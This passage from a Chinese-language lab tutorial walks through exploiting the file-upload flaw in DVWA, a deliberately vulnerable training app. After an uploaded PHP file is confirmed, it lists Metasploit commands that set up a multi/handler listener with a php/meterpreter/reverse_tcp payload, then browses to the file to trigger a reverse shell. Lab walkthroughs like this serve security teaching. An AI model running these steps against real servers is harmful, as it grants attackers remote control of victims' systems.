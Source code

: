 然后我们可以看到这么一串东西。

**`../../hackable/uploads/test.php succesfully uploaded!`**

说明你上传成功了，接下来要用到**msf**

我们在终端进入msf:

```bash
$ sudo msfconsole
```

不多讲了，走个命令流程，之前写过

调用模块:

```bash
msf5 > use exploit/multi/handler
```

按顺序执行:

```bash
msf5 exploit(multi/handler) > set lhost 192.168.0.106
```

```bash
msf5 exploit(multi/handler) > set lport 4444
```

```bash
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
```

```bash
msf5 exploit(multi/handler) > run
```

执行完后，如图:

![](/img/截图_2019-11-03_13-54-05.png)

接下来，我们会到浏览器，直接访问`http://192.168.0.105/dvwa/hackable/uploads/test.php`

这时，msf会收到反弹，如图:

![](/img/截图_2019-11-03_13-58-26.png)
